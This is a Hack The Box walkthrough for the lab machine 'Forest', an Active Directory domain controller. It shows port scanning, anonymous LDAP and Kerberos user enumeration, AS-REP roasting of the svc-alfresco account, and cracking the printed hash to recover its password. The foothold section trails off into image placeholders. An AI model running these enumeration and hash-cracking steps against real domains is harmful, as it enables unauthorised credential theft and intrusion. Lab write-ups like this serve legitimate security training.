 the box is easy <> usually i solve them as fast as possible + forest is an old box
https://www.hackthebox.com/achievement/machine/1777380/212
Forest in an easy difficulty Windows Domain Controller (DC), for a domain in which Exchange Server has been installed. The DC is found to allow anonymous LDAP binds, which is used to enumerate domain objects. The password for a service account with Kerberos pre-authentication disabled can be cracked to gain a foothold. The service account is found to be a member of the Account Operators group, which can be used to add users to privileged Exchange groups. The Exchange group membership is leveraged to gain DCSync privileges on the domain and dump the NTLM hashes.
## enumeration
	IP =10.10.10.161
```bash
┌──(pwn㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- -T4 10.10.10.161
[sudo] password for pwn: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 18:29 UTC
Nmap scan report for 10.10.10.161
Host is up (0.076s latency).
Not shown: 65511 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-05 18:38:01Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  msrpc        Microsoft Windows RPC
49977/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-05T18:38:52
|_  start_date: 2025-03-05T12:57:31
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h46m49s, deviation: 4h37m10s, median: 6m48s

```
-ldap open lets try anonymous bind
```bash
crackmapexec smb 10.10.10.161 --users
----------------------------------------------------------
┌──(pwn㉿kali)-[~/AD-TOOLS-LINUX/windapsearch]
└─$ ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" -s sub "(&(objectclass=*))" | grep sAMAccountName: | cut -f2 -d" "
----------------------------------------------------------


┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo ./kerbrute userenum -d htb.local --dc 10.10.10.161 /home/pwn/forest/userlist.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/05/25 - Ronnie Flathers @ropnop

2025/03/05 19:02:17 >  Using KDC(s):
2025/03/05 19:02:17 >   10.10.10.161:88

2025/03/05 19:02:17 >  [+] VALID USERNAME:       FOREST$@htb.local
2025/03/05 19:02:17 >  [+] VALID USERNAME:       EXCH01$@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailboxc3d7722@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailboxfc9daad@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailbox968e74d@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailbox670628e@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailbox6ded678@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailboxc0a90c9@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailbox83d6781@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailboxb01ac64@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       andy@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailboxfd87238@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailbox7108a4e@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       sebastien@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       lucinda@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       HealthMailbox0659cc1@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       santi@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       mark@htb.local
2025/03/05 19:02:18 >  [+] VALID USERNAME:       svc-alfresco@htb.local
```
-Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 GetNPUsers.py htb.local/ -usersfile /home/pwn/forest/userlist.txt -format hashcat -dc-ip 10.10.10.161

$krb5asrep$23$svc-alfresco@HTB.LOCAL:c1d2c7dd7e3e8a28dda8204560ff86b1$71507a5975355c9227cabb418915b17523162e0097c04568617683efe91d5eb40b519779797cd56ae623e0dd2e83fe77123565a88861ee92c59813703679746b4325c9d12ad7822f84a5cec13982994653b30ff9168b41430bb7618c19cac9288f9517fee063bd31759b280fb0cc6a53d17e7cc2f219726e9b48aadae065e627c2c691640ede279eee2b62553c22fe639f2220dcc6c1006e51b0627eca3e9623e152373356880e952b5d35ba75bc73b6f2edebfe85552b3d3e180105d0f96320ee86b77162e625edb3e903950066978db36b060cd5910e0cb008eaeed784cdd1e63b1ccecfe5
```

-Kerberos 5 AS-REP hash mode.
```bash
┌──(pwn㉿kali)-[~/forest]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:04 DONE (2025-03-05 19:13) 0.2169g/s 886281p/s 886281c/s 886281C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                         
┌──(pwn㉿kali)-[~/forest]
└─$ hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force  


s3rvice 
svc-alfresco
```

## FOOTHOLD
![[Pasted image 20250305221630.png]]

---
its straight forward via bloodhound 

![[Pasted image 20250305224104.png]]

![[Pasted image 20250305224255.png]]
